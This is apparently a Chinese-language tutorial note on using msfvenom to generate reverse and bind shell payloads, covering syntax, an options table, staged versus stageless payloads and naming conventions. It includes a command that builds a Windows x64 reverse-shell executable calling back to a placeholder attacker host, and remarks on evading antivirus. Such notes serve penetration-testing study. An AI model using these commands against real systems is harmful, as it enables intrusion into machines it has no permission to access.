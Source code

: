 关于payload相关事务的一站式商店

> msfvenom是metasploit框架的一部分，用于生成用于反向和绑定shell的代码，在较低级别的漏洞开发中被广泛使用，用于生成像缓冲区溢出这样的漏洞的十六进制shellcode；然而，它也可以用于生成各种格式的payload（例如 `.exe` 、 `.aspx `、`.war`、 `.py`）。


msfvenom的标准语法：`msfvenom -p <payload> <options>`

例如，生成一个Windows 64位的反向shell代码：


```Bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

![](assets/Y4iabVJ3doBH57xpXSiccffSnpg.png)

|选项 |功能 |
|---|---|
|`-f` |指定输出格式，上述例子是一个可执行文件（exe） |
|`-o` |生成payload的输出位置和文件名 |
|`LHOST=<IP>` |指定要连回的IP |
|`LPORT=<PORT>` |连接回本地机器的端口，可以在0-65535之间任意选择，但不能被占用 |
### 分阶段反向shell载荷和无级的反向shell载荷

*Staged vs Stageless*

**分阶段反向shell载荷**被分成两部分发送，第一部分成为stager，这是一段直接在服务器上执行的代码。它会连接到一个等待的侦听器，但本身并不包含任何反向shell代码。相反，它会连接到侦听器，并使用该连接加载真正的载荷，直接执行，从而防止它接触磁盘，这样就可以避免被传统的反病毒解决方案捕获。

载荷被分为两部分——a smal initial stager，另一部分是当stager激活时下载的更大、更笨重的反向shell代码



**无级载荷：**完全独立的，即只需执行一段代码，即可立即向等待的接收者发送一个shell

易于使用和检测，但是也容易被杀毒软件发现和删除

*Meterpreter：*Metasploit自己的全功能shell，非常稳定，目标是windows系统使可以选用

有内置的文件上传和下载功能，缺点是会被metasploit捕获

<u>*Payload Naming Conventions*</u>

载荷命名规范

* 基本规范：`<OS>/<arch>/<payload>`为x86 Linux目标生成一个无阶段的反向shell：`linux/x86/shell_reverse_tcp`
* 32位的windows没有指定arch：`windows/shell_reverse_tcp`
* 64位的windows，arch指定为x64
无阶段载荷：shell_reverse_tcp
